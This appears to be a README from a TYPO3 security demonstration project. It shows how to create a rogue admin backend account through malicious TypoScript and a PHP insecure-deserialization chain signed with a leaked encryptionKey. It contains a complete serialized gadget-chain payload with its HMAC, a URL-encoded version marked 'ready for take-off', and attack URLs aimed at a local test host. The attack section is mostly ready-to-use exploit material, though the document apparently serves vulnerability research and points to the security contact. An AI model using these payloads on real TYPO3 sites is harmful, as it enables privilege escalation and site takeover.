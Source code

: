 # Create Admin Account

This scenario describes how non-admin users can "upgrade" their privileged to have admin access.

* use hashed password using MD5 (algorithm does not matter, MD5 is just plain simple)
* `openssl passwd -1 -salt 123456 password`
* `password` -> `$1$123456$qqQvjw0PqIk7otmzNsUIN0`

## Technique TypoScript

```
something.stdWrap {
    cObject = TEXT
    cObject {
        value = be_users
        preUserFunc = TYPO3\CMS\Extbase\Persistence\Generic\Storage\Typo3DbBackend->addRow
        preUserFunc {
            username = h4ck3r31,
            password = $1$123456$qqQvjw0PqIk7otmzNsUIN0
            admin = 1
        }
    }
}
```

### Security Vulnerability

* valid backend sessions required
* TypoScript cannot be defined by non-admin users per default
* extensions allowing to define TypoScript as content element open this **vulnerability**

## Technique Insecure Deserialization, by-passing HMAC verification

By knowing sensitive `encryptionKey` (which is
`f30230987c323b8f81a0ab9fe5b690fd0ba3fb8161f4027221a6b6aa4c50ce629049b7d30c3681f3a9e2031f1dc401e6` for this demo project)
it is possible to invoke signed, but insecure deserialization.

**Steps**

* prepare insecure `PAYLOAD`
  + using `\GuzzleHttp\Psr7\FnStream` as callback
  + using `\TYPO3\CMS\IndexedSearch\Controller\SearchController` as trigger
* prepare malicious TypoScript creating a backend account
* serialize and sign payload with HMAC (based on `encryptionKey`)

**Plain**

```
O:24:"GuzzleHttp\Psr7\FnStream":1:{s:9:"_fn_close";a:2:{i:0;O:51:
"TYPO3\CMS\IndexedSearch\Controller\SearchController":2:{s:20:
"*typoScriptService";O:43:"TYPO3\CMS\Core\TypoScript\TypoScriptService"
:0:{}s:11:"*settings";a:1:{s:7:"results";a:1:{s:20:"summaryCropSignifier"
;a:1:{s:7:"cObject";a:3:{s:20:"_typoScriptNodeValue";s:4:"TEXT";s:5:
"value";s:8:"be_users";s:11:"preUserFunc";a:4:{s:20:"_typoScriptNodeValue"
;s:68:"TYPO3\CMS\Extbase\Persistence\Generic\Storage\Typo3DbBackend->addRow"
;s:8:"username";s:8:"h4ck3r31";s:8:"password";s:32:"$1$123456$qqQvjw0PqIk7otmzNsUIN0"
;s:5:"admin";i:1;}}}}}}i:1;s:10:"initialize";}}82b123396f51a2a274532ced52a6ed4a197ae278
```

**URL encoded** (ready for take-off)

```
O%3A24%3A%22GuzzleHttp%5CPsr7%5CFnStream%22%3A1%3A%7Bs%3A9%3A%22_fn_close%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A51%3A
%22TYPO3%5CCMS%5CIndexedSearch%5CController%5CSearchController%22%3A2%3A%7Bs%3A20%3A
%22%00%2A%00typoScriptService%22%3BO%3A43%3A%22TYPO3%5CCMS%5CCore%5CTypoScript%5CTypoScriptService%22
%3A0%3A%7B%7Ds%3A11%3A%22%00%2A%00settings%22%3Ba%3A1%3A%7Bs%3A7%3A%22results%22%3Ba%3A1%3A%7Bs%3A20%3A%22summaryCropSignifier%22
%3Ba%3A1%3A%7Bs%3A7%3A%22cObject%22%3Ba%3A3%3A%7Bs%3A20%3A%22_typoScriptNodeValue%22%3Bs%3A4%3A%22TEXT%22%3Bs%3A5%3A
%22value%22%3Bs%3A8%3A%22be_users%22%3Bs%3A11%3A%22preUserFunc%22%3Ba%3A4%3A%7Bs%3A20%3A%22_typoScriptNodeValue%22
%3Bs%3A68%3A%22TYPO3%5CCMS%5CExtbase%5CPersistence%5CGeneric%5CStorage%5CTypo3DbBackend-%3EaddRow%22
%3Bs%3A8%3A%22username%22%3Bs%3A8%3A%22h4ck3r31%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%22%241%24123456%24qqQvjw0PqIk7otmzNsUIN0%22
%3Bs%3A5%3A%22admin%22%3Bi%3A1%3B%7D%7D%7D%7D%7D%7Di%3A1%3Bs%3A10%3A%22initialize%22%3B%7D%7D82b123396f51a2a274532ced52a6ed4a197ae278
```

### Attack

Using some Extbase extension to trigger our payload.

**Frontend**

`ext:form` only works when having a valid backend session, plugins having an uncached default action work perfectly.

```
http://typo3v9-hack.ddev.local/index.php?id=38&tx_form_formframework[__trustedProperties]=PAYLOAD
```

**Backend**

No caching applied, but `&token=` has to be replaced with current XSRF token.

```
http://typo3v9-hack.ddev.local/typo3/index.php?route=%2Ffile%2FFilelistList%2F
&token=6d3ddff46fd38496f39fd6bd166540385c74c4ee&tx_filelist_file_filelistlist[__trustedProperties]=PAYLOAD
```

### Security Vulnerability

* `guzzlehttp/psr7`, explicitly raised in https://review.typo3.org/#/c/59516/
  + composer scenarios affected until approx. December 2018
  + TYPO3 bundle (zip/tarball) scenarios affected until v8.7.22 and v9.5.3
* exposed `encryptionKey` is (currently) not know as vulnerability
  + if it was, report to security@typo3.org immediately
  + security severity would be **critical**
